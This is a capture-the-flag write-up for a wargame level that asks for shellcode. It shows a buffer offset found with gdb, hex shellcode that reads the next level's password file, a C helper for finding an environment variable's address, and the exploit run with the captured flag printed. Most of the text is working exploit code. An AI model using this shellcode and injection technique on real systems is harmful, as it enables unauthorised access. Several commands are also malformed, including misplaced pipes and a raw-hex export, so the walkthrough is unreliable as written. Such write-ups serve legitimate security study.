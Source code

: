 # level04

For this level, we have a program that is telling us `Give me some shellcode, k` and we can see that it create a child process and that we can make segfault the child process. 

With [gdb](gdbwriteup.md), we found that the buffer is at 156, so we will have to inject our shellcode after that.

```bash
python -c 'print("\x90" + "SHELLCODE ADDRESS") | ./level04'
```

We will create a shellcode that will cat the flag, and we will use [this generator](https://masterccc.github.io/tools/shellcode_gen/) to create it.

```bash
export SHELLCODE=$(\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x89\xe1\x50\x51\x53\x89\xe1\x31\xc0\x83\xc0\x0b\xcd\x80
)
```

Now, we will create a program to find the address of our shellcode.

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    if (argc == 2)    
        printf("%p\n", getenv(argv[1]));
    return (0);
}
```
We will need to compile it with the flag `-m32` to get the address in 32 bits.

```bash
gcc -m32 -o getaddr getaddr.c
./getaddr $SHELLCODE
```

Now, we can run our exploit.

```bash
python -c 'print("\x90" + "SHELLCODE ADDRESS") | ./level04'
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```